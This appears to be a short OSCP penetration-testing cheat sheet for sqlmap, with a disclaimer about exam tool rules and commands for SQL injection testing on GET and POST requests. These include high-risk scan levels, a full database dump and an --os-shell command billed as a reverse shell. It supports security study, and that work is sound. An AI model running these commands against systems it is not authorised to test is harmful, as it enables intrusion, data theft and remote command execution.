 # SQLMAP

DISCLAIMER: There are a number of tools you are not allowed to use in your OSCP exam. At the time of writing, sqlmap is one of them. Check which tools are restricted/banned before you use them during your exam. You can find detailed information about tool usage in the exam guidelines.
Get Request

## Test All (Default Settings)

```bash
sqlmap -u "http://192.168.0.1/database/inject.php?q=user" --batch
```

## Test All (Default Settings, High Stress)

```bash
sqlmap -u "http://192.168.0.1/database/inject.php?q=user" --batch --level=5 --risk=3
```

## Post Request (Capture with BURP)
### Test All (Default Settings)

```bash
sqlmap --all -r post_request.txt --batch 
```

### Test All (Default Settings, High Stress)

```bash
sqlmap --all -r post_request.txt --batch --level=5 --risk=3
```

### Get A Reverse Shell (MySQL)

```bash
sqlmap -r post_request.txt --dbms "mysql" --os-shell
```

